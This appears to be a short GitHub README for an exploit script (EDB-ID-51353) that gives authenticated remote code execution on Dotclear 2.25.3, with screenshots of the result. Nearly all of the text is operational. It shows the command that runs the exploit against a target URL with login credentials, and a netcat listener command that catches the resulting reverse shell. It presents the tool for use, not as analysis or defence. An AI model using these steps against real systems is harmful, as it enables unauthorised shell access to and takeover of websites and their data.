 # EDB-ID-51353
dotclear 2.25.3 - Remote Code Execution (RCE) (Authenticated)

Usages:

```python3 EDB-ID-51353.py -d http://192.168.0.118 -u tikku -p 123456```

Steps: For getting Shell

```nc -nvlp 1337```

![image](https://user-images.githubusercontent.com/25599963/235438008-4f8d3a4d-1779-47be-838b-647f3969d713.png)

```python3 EDB-ID-51353.py -d http://192.168.0.118 -u tikku -p 123456```

![image](https://user-images.githubusercontent.com/25599963/235438235-fd6057da-d1fd-44b7-9b4e-f083d5910782.png)


